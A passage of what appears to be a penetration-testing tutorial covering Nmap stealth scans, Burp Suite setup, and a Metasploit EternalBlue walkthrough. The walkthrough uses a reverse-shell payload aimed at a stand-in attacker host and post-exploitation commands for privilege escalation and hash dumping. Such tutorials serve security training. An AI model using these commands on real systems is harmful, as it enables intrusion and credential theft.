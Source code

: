 **Advanced Nmap Techniques:**
```bash
# Stealth scan
nmap -sS -f -D RND:10 target_ip

# UDP scan
nmap -sU target_ip

# Script scanning
nmap --script vuln target_ip
```

### Web Application Testing dengan Burp Suite

**Setup Burp Suite:**
1. Install Burp Suite Professional
2. Configure browser proxy (127.0.0.1:8080)
3. Install Burp CA certificate
4. Start intercepting traffic

**Common Testing Techniques:**
- **SQL Injection Testing**
- **XSS Testing**
- **CSRF Testing**
- **Authentication Bypass**
- **Session Management Testing**

### Exploitation dengan Metasploit

**Basic Metasploit Usage:**
```bash
# Start Metasploit
msfconsole

# Search for exploits
search type:exploit platform:windows

# Use an exploit
use exploit/windows/smb/ms17_010_eternalblue

# Set target
set RHOSTS target_ip

# Set payload
set payload windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip

# Run exploit
exploit
```

**Post-Exploitation dengan Meterpreter:**
```bash
# Get system information
sysinfo

# Escalate privileges
getsystem

# Dump hashes
hashdump

# Screenshot
screenshot

# Keylogger
```